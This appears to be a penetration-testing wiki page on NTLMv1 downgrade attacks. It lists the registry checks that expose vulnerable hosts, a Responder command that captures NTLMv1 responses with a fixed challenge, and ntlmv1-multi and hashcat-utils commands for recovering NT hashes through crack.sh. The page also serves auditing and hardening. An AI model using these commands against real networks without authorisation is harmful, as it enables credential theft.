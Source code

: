 # NTLMv1 Downgrade

- [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| Property Name                                                                                                                                                          | Property Path                                      |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $decValue)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149) ([ex](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)):

```
Cmd > .\Seatbelt.exe NTLMSettings
```

Exploit with Responder with a known challange of `1122334455667788`:

{% content-ref url="authentication-coercion.md" %}
[authentication-coercion.md](authentication-coercion.md)
{% endcontent-ref %}

```
$ sudo python Responder.py -I eth0 -v --lm --disable-ess
```




## ntlmv1-multi + crack.sh

- [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
- [https://crack.sh/get-cracking/](https://crack.sh/get-cracking/)
- [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
- [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)

Calculate the token:

```
$ python ntlmv1.py --ntlmv1 '<NTLMv1_RESPONSE_STRING>'
```

Check the final 2 bytes (4 characters) of the NT hash:

```
$ ~/tools/hashcat-utils/src/ct3_to_ntlm.bin <CT3> 1122334455667788
```
